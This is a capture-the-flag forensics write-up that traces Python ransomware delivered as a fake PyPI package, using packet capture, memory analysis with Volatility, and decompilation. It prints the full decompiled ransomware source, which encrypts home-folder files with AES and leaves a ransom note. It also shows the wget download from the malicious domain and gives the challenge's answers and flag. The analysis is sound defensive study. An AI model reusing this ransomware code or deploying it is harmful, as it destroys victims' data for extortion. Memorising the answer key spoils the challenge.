 ## CHALLENGE INFO
> In my company, we are developing a new python game for Halloween.
> I'm the leader of this project; thus, I want it to be unique.
> So I researched the most cutting-edge python libraries for game development until I stumbled upon a private game-dev discord server.
> One member suggested I try a new python library that provides enhanced game development capabilities.
> I was excited about it until I tried it. Quite simply, all my files are encrypted now.
> Thankfully I manage to capture the memory and the network traffic of my Linux server during the incident.
> Can you analyze it and help me recover my files? To get the flag, connect to the docker service and answer the questions.
> WARNING! Do not try to run the malware on your host.
> It may harm your computer!

---
## Tools
https://github.com/extremecoders-re/pyinstxtractor
https://github.com/rocky/python-uncompyle6/
https://www.wireshark.org/
https://github.com/volatilityfoundation/volatility

For this challenge we receive the following files.
```Bash
remnux@remnux:~/Downloads/forensics_poof$ md5sum *
41f7b5a308dfa7eaaf1032a184b21f05  candy_dungeon.pdf.boo
ae7461142d946d43dbee834deb901dbb  mem.dmp
0136cc7dfd296718e11c6e93dc99f0eb  poof_capture.pcap
6767c2f69d64d0ab935ef3279db8dea7  Ubuntu_4.15.0-184-generic_profile.zip
```
**Question #1: Which is the malicious URL that the ransomware was downloaded from? (for example: http[:]//maliciousdomain/example/file[.]extension)**
![alt text](POOF.png)
Upon opening the packet capture, the malicious download URL is immediatly visible and it looks like it's pretending to be a python package.
`http://files.pypi-install.com/packages/a5/61/caf3af6d893b5cb8eae9a90a3054f370a92130863450e3299d742c7a65329d94/pygaming-dev-13.37.tar.gz`

**Question #2: What is the name of the malicious process? (for example: malicious)**
I then download the malicious python package from the pcap.
![alt text](POOF2.png)
Unpacking the archive reveals a ELF binary.
```Bash
remnux@remnux:~/Downloads/forensics_poof$ ls
boot  candy_dungeon.pdf.boo  mem.dmp  poof_capture.pcap  pygaming-dev-13.37  pygaming-dev-13.37.tar.gz  Ubuntu_4.15.0-184-generic_profile.zip  volatility
remnux@remnux:~/Downloads/forensics_poof$ cd pygaming-dev-13.37/
remnux@remnux:~/Downloads/forensics_poof/pygaming-dev-13.37$ ls
configure
remnux@remnux:~/Downloads/forensics_poof/pygaming-dev-13.37$ file configure 
configure: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ac40f3d3f795f9ee657f59a09fbedea23c4d7e25, for GNU/Linux 2.6.32, stripped
```
We can now most likely guess that this will also be the malicious process running on the host. 
But just in order to confirm this I will add the given volatility profile to volatility2 and list the machines process tree.
https://github.com/volatilityfoundation/volatility/wiki/Linux#using-the-plugins
```Bash
remnux@remnux:/opt/volatility$ sudo python2 vol.py -f mem.dmp --profile=LinuxUbuntu_4_15_0-184-generic_profilex64 linux_pstree
Volatility Foundation Volatility Framework 2.6.1
Name                 Pid             Uid            
systemd              1                              
.systemd-journal     429                            
.lvmetad             439                            
.systemd-udevd       453                            
.systemd-timesyn     636             62583          
.systemd-network     734             100            
.systemd-resolve     751             101            
.accounts-daemon     820                            
.dbus-daemon         822             103            
.networkd-dispat     839                            
.lxcfs               841                            
.rsyslogd            846             102            
.systemd-logind      856                            
.atd                 857                            
.cron                864                            
.unattended-upgr     873                            
.polkitd             874                            
.agetty              890                            
.sshd                891                            
..sshd               1171                           
...sshd              1311            1000           
....bash             1312            1000           
.....configure       1340            1000           
......configure      1341            1000           
```
The malicious process is seen running on the memory dump of the machine as well.
```Bash
remnux@remnux:/opt/volatility$ sudo python2 vol.py -f mem.dmp --profile=LinuxUbuntu_4_15_0-184-generic_profilex64 linux_bash
Volatility Foundation Volatility Framework 2.6.1
Pid      Name                 Command Time                   Command
-------- -------------------- ------------------------------ -------
    1312 bash                 2022-10-20 09:10:22 UTC+0000   ls
    1312 bash                 2022-10-20 09:10:22 UTC+0000   pwd
    1312 bash                 2022-10-20 09:10:22 UTC+0000   sudo poweroff
    1312 bash                 2022-10-20 09:10:22 UTC+0000   history
    1312 bash                 2022-10-20 09:10:22 UTC+0000   ip a
    1312 bash                 2022-10-20 09:10:22 UTC+0000   sudo poweroff
    1312 bash                 2022-10-20 09:10:23 UTC+0000   ls
    1312 bash                 2022-10-20 09:10:25 UTC+0000   ls
    1312 bash                 2022-10-20 09:10:25 UTC+0000   cd Documents/
    1312 bash                 2022-10-20 09:10:27 UTC+0000   cd halloween_python_game/
    1312 bash                 2022-10-20 09:10:27 UTC+0000   ls
    1312 bash                 2022-10-20 09:10:36 UTC+0000   wget http://files.pypi-install.com/packages/a5/61/caf3af6d893b5cb8eae9a90a3054f370a92130863450e3299d742c7a65329d94/pygaming-dev-13.37.tar.gz
    1312 bash                 2022-10-20 09:10:47 UTC+0000   tar -xf pygaming-dev-13.37.tar.gz
    1312 bash                 2022-10-20 09:10:48 UTC+0000   ls
    1312 bash                 2022-10-20 09:10:51 UTC+0000   cd pygaming-dev-13.37/
    1312 bash                 2022-10-20 09:10:52 UTC+0000   ls
    1312 bash                 2022-10-20 09:10:57 UTC+0000   ./configure 
```
The malicious binary can also be seen being run here in the bash history.

**Question #3: Provide the md5sum of the ransomware file.**
```Bash
remnux@remnux:~/Downloads/forensics_poof/pygaming-dev-13.37$ md5sum configure 
7c2ff873ce6b022663a1f133383194cc  configure
```

**Question #4: Which programming language was used to develop the ransomware? (for example: nim)**
I made a guess based on the name of the folder containing the elf binary and the malicious URL it was downloaded from.
`Python`

**Question #5: After decompiling the ransomware, what is the name of the function used for encryption? (for example: encryption)**
Decompiling the ELF binary is possible due to it being generated by PyInstaller.
First i extract the contents of the ransomware with `pyinstxtractor`
```Bash
remnux@remnux:/opt/pyinstxtractor$ sudo python2 pyinstxtractor.py /home/remnux/Downloads/forensics_poof/pygaming-dev-13.37/configure 
[+] Processing /home/remnux/Downloads/forensics_poof/pygaming-dev-13.37/configure
[+] Pyinstaller version: 2.1+
[+] Python version: 3.6
[+] Length of package: 7448520 bytes
[+] Found 79 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_subprocess.pyc
[+] Possible entry point: pyi_rth_pkgutil.pyc
[+] Possible entry point: pyi_rth_inspect.pyc
[+] Possible entry point: configure.pyc
[!] Warning: This script is running in a different Python version than the one used to build the executable.
[!] Please run this script in Python 3.6 to prevent extraction errors during unmarshalling
[!] Skipping pyz extraction
[+] Successfully extracted pyinstaller archive: /home/remnux/Downloads/forensics_poof/pygaming-dev-13.37/configure

You can now use a python decompiler on the pyc files within the extracted directory
```
After extracting the contents I then decompile the extracted `configure.pyc` file using `uncompyle6`
```Python
remnux@remnux:/opt/pyinstxtractor/configure_extracted$ uncompyle6 configure.pyc 
# uncompyle6 version 3.9.0
# Python bytecode version base 3.6 (3379)
# Decompiled from: Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
# [GCC 9.3.0]
# Embedded file name: configure.py
from Crypto.Cipher import AES
import random, string, time, os

def Pkrr1fe0qmDD9nKx(filename: str, data: bytes) -> None:
    open(filename, 'wb').write(data)
    os.rename(filename, f"{filename}.boo")


def mv18jiVh6TJI9lzY(filename: str) -> None:
    data = open(filename, 'rb').read()
    key = 'vN0nb7ZshjAWiCzv'
    iv = b'ffTC776Wt59Qawe1'
    cipher = AES.new(key.encode('utf-8'), AES.MODE_CFB, iv)
    ct = cipher.encrypt(data)
    Pkrr1fe0qmDD9nKx(filename, ct)


def w7oVNKAyN8dlWJk() -> str:
    letters = string.ascii_lowercase + string.digits
    _id = ''.join(random.choice(letters) for i in range(32))
    return _id


def print_note() -> None:
    _id = w7oVNKAyN8dlWJk()
    banner = f"\n\nPippity poppity give me your property!\n\n\t   *                  ((((\n*            *        *  (((\n\t   *                (((      *\n  *   / \\        *     *(((    \n   __/___\\__  *          (((\n\t (O)  |         *     ((((\n*  '<   ? |__ ... .. .             *\n\t \\@      \\    *    ... . . . *\n\t //__     \t// ||\\__   \\    |~~~~~~ . . .   *\n====M===M===| |=====|~~~~~~   . . .. .. .\n\t\t *  \\ \\ \\   |~~~~~~    *\n  *         <__|_|   ~~~~~~ .   .     ... .\n\t\nPOOF!\n\nDon't you speak English? Use https://translate.google.com/?sl=en&tl=es&op=translate \n\nYOU GOT TRICKED! Your home folder has been encrypted due to blind trust.\nTo decrypt your files, you need the private key that only we possess. \n\nYour ID: {_id}\n\nDon't waste our time and pay the ransom; otherwise, you will lose your precious files forever.\n\nWe accept crypto or candy.\n\nDon't hesitate to get in touch with cutie_pumpkin@ransomwaregroup.com during business hours.\n\n\t"
    print(banner)
    time.sleep(60)


def yGN9pu2XkPTWyeBK(directory: str) -> list:
    filenames = []
    for filename in os.listdir(directory):
        result = os.path.join(directory, filename)
        if os.path.isfile(result):
            filenames.append(result)
        else:
            filenames.extend(yGN9pu2XkPTWyeBK(result))

    return filenames


def main() -> None:
    username = os.getlogin()
    directories = [
     f"/home/{username}/Downloads",
     f"/home/{username}/Documents",
     f"/home/{username}/Desktop"]
    for directory in directories:
        if os.path.exists(directory):
            files = yGN9pu2XkPTWyeBK(directory)
            for fil in files:
                try:
                    mv18jiVh6TJI9lzY(fil)
                except Exception as e:
                    pass

    print_note()


if __name__ == '__main__':
    main()
# okay decompiling configure.pyc
```
From the decompiled output the ransomwares encryption function is visible.
`mv18jiVh6TJI9lzY`

**Question #6: Decrypt the given file, and provide its md5sum.**
I can now easily create a decryption script using the encryption functions Key, IV, Encryption Cipher and Encryption Mode.
```Python
from Crypto.Cipher import AES

data = open('candy_dungeon.pdf.boo', 'rb').read()
key = 'vN0nb7ZshjAWiCzv'
iv = 'ffTC776Wt59Qawe1'
cipher = AES.new(key.encode('utf-8'), AES.MODE_CFB, iv.encode('utf-8'))
ct = cipher.decrypt(data)
f = open('candy_dungeon.pdf', 'wb')
f.write(ct)
```
The decrypted pdf is now readable and can be opened. Revealing a halloween video game development plan.
![alt text](POOF3.png)
```Bash
remnux@remnux:~/Downloads/forensics_poof$ md5sum candy_dungeon.pdf
3bc9f072f5a7ed4620f57e6aa8d7e1a1  candy_dungeon.pdf
```
After providing the decrypted pdfs md5 hash we receive the flag for solving the challenge.
`HTB{n3v3r_tru5t_4ny0n3_3sp3c14lly_dur1ng_h4ll0w33n}`